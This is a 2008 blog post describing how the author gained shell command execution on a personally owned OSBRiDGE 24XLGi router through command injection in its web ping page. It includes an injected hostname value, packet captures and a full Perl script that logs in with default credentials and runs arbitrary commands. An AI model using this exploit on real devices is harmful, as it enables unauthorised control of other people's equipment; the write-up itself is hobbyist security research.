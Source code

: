 +++
title = "Hacking the OSBRiDGE 24XLGi"
date = "2008-05-06T01:20:00+01:00"
description = "Hacking the OSBRiDGE 24XLGi trough the web interface"
tags = ["hacking"]
+++

A friend gave me an [OSBRiDGE 24XLGi](http://www.osbridge.com/download/OSBRiDGE_24XLG.pdf), its case broke and was not suitable for outdoor use anymore.  
The router is pretty closed: a network scan doesn't reveal any open port other than the web interface one and connecting to the serial port reveals a crippled bootloader.  
Firmware upgrade is done via the web interface, and the firmware is checked for integrity.

The web interface has the usual features found in a router, along with a "service" page which allows to ping a host.  
I suspected that it just execs ping via the system shell, but the hostname size is limited to 15 characters (12 numbers and 3 dots).  
Nothing that can't be cheated with the browser inspector, so I did it and tried to ping the hostname "192.168.1.129 ; ping 192.168.1.150", whith 192.168.1.129 being my notebook IP and 192.168.1.150 an unused one.

Concurrently, I started a tcpdump on the notebook and notices the osbridge sending ARP packets trying to resolve the MAC address for 192.168.1.150.
This means that the injection works!

```
IP 192.168.1.250 > 192.168.1.129: ICMP echo request, id 28003, seq 0, length 68
IP 192.168.1.129 > 192.168.1.250: ICMP echo reply, id 28003, seq 0, Length 68
arp who-has 192.168.1.150 tell 192.168.1.250 
arp who-has 192.168.1.150 tell 192.168.1.250 
```

I started injecting some commands by crafting HTTP requests with cURL, and when executing a non existent command I got this HTTP header:

```
Client-Junk: sh: xxxcmd: not found
```

This means the web server redirects the command stderr and returns it a custom HTTP header named "Client-Junk".

So I wrote a perl script which injects commands:

```
$ ./inject.pl uname -a
Linux (none) 2.4.18-MIPS-01.00 #653 ro maj 23 11:38:56 CEST 2007 mips unknown
```

The script is pretty simple. It logs in, gets the session ID, injects the command, prints the output and extracts the stderr from the HTTP headers:
```perl
#!/usr/bin/perl -w

use strict;
use warnings;

use LWP::UserAgent;
use HTTP::Request::Common qw(GET);

my $ua = LWP::UserAgent->new();
my $req = HTTP::Request->new(GET => 'http://192.168.1.250/cgi-bin/cgi?www=login&login=admin&password=public');
my $content = $ua->request($req)->as_string;
my $id;

if($content =~ /www=applycfg&IDs=(\d{30})/) {
	$id = $1;
} else {
	die "Can't find ID (wrong password?)";
}

my $url = "http://192.168.1.250/cgi-bin/cgi?www=ping&IDs=$id&hostip=127.0.0.1 ; @ARGV >/proc/self/fd/2&packetsize=60&packetcount=1&submit=Ping";

print "[~] @ARGV\n";

$req = HTTP::Request->new(GET => $url);

$content = $ua->request($req)->as_string;

while ($content =~ /^Client-Junk: (.*)/mg) {
	print "$1\n";
}
```

Although this isn't of any practical use, it was a fun hacking exercise!
